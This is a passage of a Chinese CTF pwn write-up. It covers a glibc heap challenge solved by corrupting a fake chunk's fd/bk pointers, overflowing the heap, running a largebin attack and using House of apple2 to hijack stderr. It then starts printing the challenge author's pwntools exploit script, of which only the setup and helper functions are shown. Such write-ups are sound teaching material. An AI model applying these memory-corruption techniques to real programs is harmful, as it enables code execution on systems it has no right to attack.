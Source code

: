 再加上前面把 fakechunk 的 fd、bk 指针改成了储存堆块指针的 bss 段地址，此时再 edit(0) 便可对 bss 段进行修改

[![](assets/1702521085-bc0913d5691f850ffeadaad5457c65e3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205231046-77504832-9380-1.png)

在更改了大小后就可以进行堆溢出了

然后就是 largebin attack 走 House of apple2 即可

关于 House of apple 的调用链这里不详细说明

想了解详细可以看笔者之前写的文章：[新型 IO 利用方法学习——House of apple2 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/13092)

劫持的是 stderr 结构体

[![](assets/1702521085-09c9ff28ff0261662d831df227536668.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205231000-5c11aaf2-9380-1.png)

放下出题人的 exp：

```bash
from pwn import *
import sys
context.log_level='debug'
context.arch='amd64'
libc = ELF('./libc.so.6')
flag = 1

if flag:
    p = remote('0.0.0.0', 9999)
else:
    p = process("./challenge")
sa = lambda s,n : p.sendafter(s,n)
sla = lambda s,n : p.sendlineafter(s,n)
sl = lambda s : p.sendline(s)
sd = lambda s : p.send(s)
rc = lambda n : p.recv(n)
ru = lambda s : p.recvuntil(s)
ti = lambda : p.interactive()
leak = lambda name,addr :log.success(name+"--->"+hex(addr))

def add(index,size,content):
    sla(b': ',b'1')
    sla(b': ',str(index).encode())
    sla(b': ',str(size).encode())
    sa(b': ',content)

def delete(index):
    sla(b': ',b'2')
```